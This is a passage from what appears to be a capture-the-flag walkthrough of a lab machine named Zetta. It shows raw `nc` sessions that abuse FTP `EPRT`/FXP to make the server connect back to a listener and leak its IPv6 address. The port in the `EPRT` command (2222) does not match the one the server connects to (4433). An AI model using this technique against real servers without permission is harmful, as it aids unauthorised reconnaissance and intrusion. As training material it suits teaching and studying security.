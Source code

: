 
I’ll connect to Zetta on FTP using `nc`:

    
    
    root@kali# nc 10.10.10.156 21
    220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
    220-You are user number 2 of 500 allowed.
    220-Local time is now 03:36. Server port: 21.
    220-This is a private system - No anonymous login
    220-IPv6 connections are also welcome on this server.
    220 You will be disconnected after 15 minutes of inactivity.
    USER bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    331 User bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb OK. Password required
    PASS bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    230-This server supports FXP transfers
    230-OK. Current restricted directory is /
    230-0 files used (0%) - authorized: 10 files
    230 0 Kbytes used (0%) - authorized: 1024 Kb
    

Now I’ll enter a `EPRT` command to tell the server where to connect using the
[RFC-2428 syntax](https://tools.ietf.org/html/rfc2428) and my global IPv6:

    
    
    EPRT |2|dead:beef:2::1003|443
    501 Sorry, but I won't connect to ports < 1024
    EPRT |2|dead:beef:2::1003|2222
    200-FXP transfer: from 10.10.14.5 to dead:beef:2::1003%144
    200 PORT command successful
    

It’s worth noting that this server won’t connect to ports under 1024. So I
pick a high one. Now I’ll start a `nc` listener on 4433 and run `LIST`. It
fails on the FTP server:

    
    
    LIST
    150 Connecting to port 4433
    226-Options: -l 
    226 0 matches total
    

But I get a connection at `nc`:

    
    
    root@kali# nc -lnvp 4433
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from dead:beef::250:56ff:fe88:e5fa.
    Ncat: Connection from dead:beef::250:56ff:fe88:e5fa:54680.
    

Now I have the IPv6 of Zetta. Each time the box boots, that IP will change, so
I wrote a quick script to fetch it. The script opens a socket on a random port
to listen, then logs into FTP, authenticates, and sets the transfer to my IPv6
with the same random port. Then it accepts the connection on the listener, and
prints the IPv6:
